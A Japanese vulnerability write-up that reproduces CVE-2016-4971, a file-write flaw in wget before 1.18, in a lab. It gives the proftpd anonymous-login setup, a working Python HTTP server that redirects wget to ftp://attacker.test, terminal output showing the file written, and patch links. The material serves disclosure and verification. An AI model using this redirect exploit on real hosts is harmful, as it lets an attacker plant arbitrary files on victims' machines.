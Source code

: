 ```yaml
---
layout: post
title:  "CVE-2016-4971 Wgetによる任意のファイルの書き込み"
date:   2016-07-06 10:30:00 +0900
categories: Vulnerability
toc: true
---
```


## 概要

wget 1.18未満のVersionにはHTTPリダイレクトを用いてFTPリソースから任意のファイル名でファイルを作成される脆弱性があります。

## 攻撃の詳細

攻撃者は以下のような30X系のレスポンスを返すことで任意のファイルを被害者のサーバに作成することができる。

```
HTTP/1.1 302 Found
Cache-Control: private
Content-Type: text/html; charset=UTF-8
Location: ftp://attacker.test/foo.txt
```

## 検証環境の構築

 * 被害者マシンのディストロ情報

```
kosuke@scapegoat ~ $ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.5 (jessie)
Release:        8.5
Codename:       jessie
```

 * 攻撃者マシンのディストロ情報

```
kosuke@attacker ~ $ lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.5 (jessie)
Release:        8.5
Codename:       jessie
```

 * 攻撃用サーバにftpサーバを構築する

```
kosuke@attacker ~ $ sudo apt-get install ftp proftpd
```

 * ftpサーバにanonymous loginの設定を行う

```
<Anonymous /tmp/ftp>
  User                          ftp
  Group                         nogroup
  # We want clients to be able to login with "anonymous" as well as "ftp"
  UserAlias                     anonymous ftp
  # Cosmetic changes, all files belongs to ftp user
  DirFakeUser   on ftp
  DirFakeGroup on ftp

  RequireValidShell             off

  # Limit the maximum number of anonymous logins
  MaxClients                    10

  # We want 'welcome.msg' displayed at login, and '.message' displayed
  # in each newly chdired directory.
  DisplayLogin                  welcome.msg
  DisplayChdir          .message

  # Limit WRITE everywhere in the anonymous chroot
  <Directory *>
    <Limit WRITE>
      DenyAll
    </Limit>
  </Directory>

</Anonymous>
```

 * anonymous loginできるかを検証する

```
kosuke@scapegoat ~ $ ftp attacker.test
Connected to attacker.test.
220 ProFTPD 1.3.5 Server (Debian) [::ffff:192.168.10.103]
Name (attacker.test:kosuke): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
```

## 実証

 * 攻撃用のスクリプトを作成

```
#!/usr/bin/python
import http.server
import socketserver

HTTP_PORT = 8000
FTP_HOST = 'attacker.test'
FTP_PORT = 21
FILENAME = 'HACKING.txt'

class wgetExploit(http.server.SimpleHTTPRequestHandler):

    def do_GET(self):
        self.send_response(301)
        ftp_path = '%s'%('ftp://anonymous@%s:%s/%s'%(FTP_HOST, FTP_PORT, FILENAME))
        self.send_header('Location', ftp_path)
        self.end_headers()

httpd = socketserver.TCPServer(("", HTTP_PORT), wgetExploit)
httpd.serve_forever()
```

 * 攻撃用スクリプトを用いてHTTPサーバを起動する

```
kosuke@attacker ~ $ python --version
Python 3.5.1
kosuke@attacker ~ $ python exploit.py
```

 * scapegoat.testでwgetを実行しHACKING.txtが作成されることを確認する

```
kosuke@attacker ~ $ wget http://attacker.test:8000
--2016-07-06 16:39:36--  http://attacker.test:8000/
attacker.test (attacker.test) をDNSに問いあわせています... 127.0.0.1
attacker.test (attacker.test)|127.0.0.1|:8000 に接続しています... 接続しました。
HTTP による接続要求を送信しました、応答を待っています... 301 Moved Permanently
場所: ftp://anonymous@attacker.test:21/HACKING.txt [続く]
--2016-07-06 16:39:36--  ftp://anonymous@attacker.test/HACKING.txt
           => `HACKING.txt'
attacker.test (attacker.test)|127.0.0.1|:21 に接続しています... 接続しました。
anonymous としてログインしています... ログインしました!
==> SYST ... 完了しました。    ==> PWD ... 完了しました。
==> TYPE I ... 完了しました。  ==> CWD は必要ありません。
==> SIZE HACKING.txt ... 8
==> PASV ... 完了しました。    ==> RETR HACKING.txt ... 完了しました。
長さ: 8 (確証はありません)

HACKING.txt             100%[=================================>]       8  --.-KB/s 時間 0s

2016-07-06 16:39:36 (53.6 KB/s) - `HACKING.txt' へ保存終了 [8]

kosuke@attacker ~ $ cat HACKING.txt
HACKING
```

 * サーバレスポンスを確認する

```
kosuke@attacker ~ $ wget http://attacker.test:8000 --server-response
  HTTP/1.0 301 Moved Permanently
  Server: SimpleHTTP/0.6 Python/3.5.1
  Date: Wed, 06 Jul 2016 07:40:45 GMT
  Location: ftp://anonymous@attacker.test:21/HACKING.txt
```

## パッチ情報

 * http://git.savannah.gnu.org/cgit/wget.git/patch/?id=e996e322ffd42aaa051602da182d03178d0f13e1
 * https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2016-4971
 * https://security-tracker.debian.org/tracker/CVE-2016-4971

## 参考文献

 * https://blogs.securiteam.com/index.php/archives/2701
 * https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-4971
 * http://docs.python.jp/3/library/http.server.html


